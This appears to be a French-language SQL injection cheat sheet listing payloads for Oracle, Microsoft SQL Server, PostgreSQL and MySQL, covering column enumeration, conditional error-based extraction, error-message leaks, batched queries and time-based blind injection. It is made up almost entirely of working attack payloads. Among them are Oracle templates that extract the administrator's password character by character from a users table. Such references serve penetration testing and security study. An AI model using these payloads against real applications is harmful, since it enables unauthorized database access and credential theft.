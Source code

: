 ## Nom des colonnes

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Oracle |  SELECT column_name FROM user_tab_columns WHERE table_name = 'NOM_DE_LA_TABLE'; |
| Microsoft | SELECT column_name FROM information_schema.columns WHERE table_name = 'NomDeLaTable'; | 
| PostgreSQL | SELECT column_name FROM information_schema.columns WHERE table_name = 'NomDeLaTable'; |
| MySQL | SELECT column_name FROM information_schema.columns WHERE table_schema = 'nom_de_la_base' AND table_type = 'BASE TABLE'; |


## Conditionnal Error based

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Oracle |  **Test**: SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual <br/> **Version**: SELECT CASE WHEN (ASCII(SUBSTR(banner, {index}, 1))>={mid}) THEN TO_CHAR(1/0) ELSE '' END FROM v$version where ROWNUM={offset} <br/> **Tables**: SELECT CASE WHEN (ascii(substr(table_name, {index}, 1))>={mid}) THEN TO_CHAR(1/0) ELSE '' END FROM user_tables where ROWNUM={offset} <br/> **Colonnes**: SELECT CASE WHEN (ascii(substr(column_name, {index}, 1)) >= {mid}) THEN TO_CHAR(1/0) ELSE '' END FROM (SELECT column_name FROM (SELECT column_name, ROWNUM AS rn FROM USER_TAB_COLUMNS WHERE table_name = 'USERS' AND ROWNUM <= {offset}) WHERE rn = {offset}) <br/> **Dump**: SELECT CASE WHEN (ascii(substr(password, {index}, 1)) >= {mid}) THEN TO_CHAR(1/0) ELSE '' END FROM (SELECT username, password FROM (SELECT username, password, ROWNUM AS rn FROM users WHERE username = 'administrator' AND ROWNUM <= {offset}) WHERE rn = {offset}) |
| Microsoft | SELECT CASE WHEN (Condition) THEN 1/0 ELSE NULL END | 
| PostgreSQL | 1 = (SELECT CASE WHEN (CONDITION) THEN 1/(SELECT 0) ELSE NULL END) |
| MySQL | SELECT IF(CONDITION,(SELECT table_name FROM information_schema.tables),'a') |

## Error messages

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Microsoft | SELECT 'foo' WHERE 1 = (SELECT 'secret') <br/> > Conversion failed when converting the varchar value 'secret' to data type int. | 
| PostgreSQL | SELECT CAST((SELECT password FROM users LIMIT 1) AS int) <br/> >  invalid input syntax for integer: "secret" |
| MySQL | SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) <br/> > XPATH syntax error: '\secret' |

## Batched queries

REQUETE1;REQUETE2

> Oracle ne supporte pas les requêtes multiples.
{: .prompt-warning}

> Avec MySQL, les requêtes groupées ne peuvent généralement pas être utilisées pour des injections SQL. Cependant, cela est parfois possible si l'application cible utilise certaines API PHP ou Python pour communiquer avec une base de données MySQL.
{: .prompt-info}

## Time-based

| **Database**   | **Payload**    |
|--------------- | --------------- |
| Oracle |  SELECT CASE WHEN (CONDITION) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| Microsoft | IF (CONDITION) WAITFOR DELAY '0:0:10' | 
| PostgreSQL | SELECT CASE WHEN (CONDITION) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(CONDITION,SLEEP(10),'a') |
